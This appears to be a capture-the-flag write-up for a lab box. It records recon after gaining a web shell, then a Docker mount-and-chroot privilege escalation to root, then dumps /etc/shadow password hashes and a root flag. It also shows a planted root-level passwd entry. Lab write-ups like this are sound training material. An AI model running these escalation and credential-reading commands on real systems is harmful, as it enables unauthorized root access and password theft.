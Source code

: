 
I think now we got the shell of this box let's do some recon and see what we can do
![[Pasted image 20240818125838.png]]


```
c43l:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:0:0:root:/root:/bin/bash
```


```
www-data@ip-10-201-11-33:/var/www$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/docker
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/at
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chsh
```


```
www-data@ip-10-201-11-33:/var/www$ env
env
PWD=/var/www
APACHE_LOG_DIR=/var/log/apache2
LANG=C
INVOCATION_ID=2806c7ef0c06427c965da7c8024dbae2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
TERM=xterm
term=xterm
APACHE_RUN_GROUP=www-data
APACHE_LOCK_DIR=/var/lock/apache2
SHLVL=3
LC_CTYPE=C.UTF-8
APACHE_RUN_DIR=/var/run/apache2
JOURNAL_STREAM=9:23813
APACHE_RUN_USER=www-data
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/var/www/html
_=/usr/bin/env
```


```
www-data@ip-10-201-11-33:/var/www$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
www-data@ip-10-201-11-33:/var/www$ 
```


```
www-data@ip-10-201-11-33:/var/www$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

## So it's time to get privilege escalation escalation

Docker
```
docker run -v /:/mnt --rm -it cb1b741122e8 chroot /mnt sh
```

![[Pasted image 20240818160415.png]]

We got the root access but the wrong once so will again access the right docker (i.e. ubuntu 18.04)
```
docker run -v /:/mnt --rm -it 56def654ec22 chroot /mnt sh
```

I was not able to find the root flag so we have repository name with ubuntu 18.04


So this time we get the right shell and got the root.txt so i have to keep this in mind that it was a loop hole and i have to do some smart work and choose the right way
```
# cat root.txt
cat root.txt
HOLO{e16581b01d445a05adb2e6d45eb373f7}
```


I have cat the /etc/shadow and got some hashes
```
ubuntu:!$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:18601:0:99999:7:::
```

```
linux-admin:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:18570:0:99999:7:::
```

Let's see if we can get the .ssh keys fingers closed
```

```